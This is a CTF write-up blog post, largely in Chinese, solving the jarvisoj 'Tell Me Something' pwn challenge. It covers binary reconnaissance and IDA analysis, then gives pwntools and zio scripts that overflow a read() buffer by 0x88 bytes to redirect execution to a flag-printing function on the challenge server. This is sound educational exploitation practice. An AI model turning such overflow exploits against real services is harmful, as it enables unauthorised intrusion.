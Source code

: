 ```yaml
---
layout:     post
title:      jarvisoj Tell Me Something
author:     wooy0ung
tags: 		linux elf pwn
category:  	ctf
---
```



### 0x00 introduction

```
Problem Address:
https://www.jarvisoj.com

Problem Description:
Do you have something to tell me?

Download:
https://dn.jarvisoj.com/challengefiles/guestbook.d3d5869bd6fb04dd35b29c67426c0f05

Address:
nc pwn.jarvisoj.com 9876
```
<!-- more -->


### 0x01 file命令查看文件是64位elf格式

```
file guestbook
```

![](/assets/img/ctf/pwn/2017-06-15-jarvisoj-tell-me-something/0x00.png)

### 0x02 checksec查看开了哪些保护，发现只有NX

```
checksec guestbook
```

![](/assets/img/ctf/pwn/2017-06-15-jarvisoj-tell-me-something/0x01.png)

### 0x03 在kali linux 2.0中执行程序
```
chmod a+x ./guestbook
./guestbook
```

![](/assets/img/ctf/pwn/2017-06-15-jarvisoj-tell-me-something/0x02.png)

### 0x04 执行文件放到IDA中分析

发现good_game这个函数很可疑

![](/assets/img/ctf/pwn/2017-06-15-jarvisoj-tell-me-something/0x03.png)

跟进去发现函数内部在读取flag，这应该就是我们要找的关键函数

![](/assets/img/ctf/pwn/2017-06-15-jarvisoj-tell-me-something/0x04.png)

接下来对main函数进行分析，发现没有调用到good_game，但存在read这个溢出函数

![](/assets/img/ctf/pwn/2017-06-15-jarvisoj-tell-me-something/0x05.png)

看一下缓冲区到返回地址的距离，0x88个字节

![](/assets/img/ctf/pwn/2017-06-15-jarvisoj-tell-me-something/0x06.png)

### 0x05 现在可以开始写exploit

调用pwntools

```
#!/usr/bin/python
# -*- coding:utf8 -*-

from pwn import *
payload = "A" * 0x88 + p64(0x400620)
# Io = process('./guestbook')
Io = remote('pwn.jarvisoj.com', 9876)
Io.recvuntil('message:')
Io.send(payload)
Io.interactive()
```

调用zio
```
#!/usr/bin/python
# -*- coding:utf8 -*-

import zio
payload = "A"*0x88 + "\x20\x06\x40\x00\x00\x00\x00\x00"
# Io = zio.zio('./guestbook')
Io = zio.zio(('pwn.jarvisoj.com',9876))
Io.write(payload)
Io.interact()
```

得到flag

![](/assets/img/ctf/pwn/2017-06-15-jarvisoj-tell-me-something/0x07.png)